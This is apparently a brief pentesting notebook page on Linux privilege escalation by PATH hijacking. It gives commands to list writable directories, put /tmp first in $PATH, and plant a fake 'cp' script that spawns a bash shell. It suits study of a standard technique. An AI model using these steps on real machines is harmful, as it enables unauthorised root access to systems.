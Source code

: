 # PATH

we start to know all paths are stored

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png>)

then we want to know what are folder is writable

```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

we compare if any writable folder is path or not if not found we try to add this folder in `$PATH`

```bash
export PATH=/tmp:$PATH
# replace /tmp to your path
```

then we will create a malicious file

```bash
echo -e '#!/bin/bash\n/bin/bash' > /tmp/cp
chmod +x /tmp/cp
```
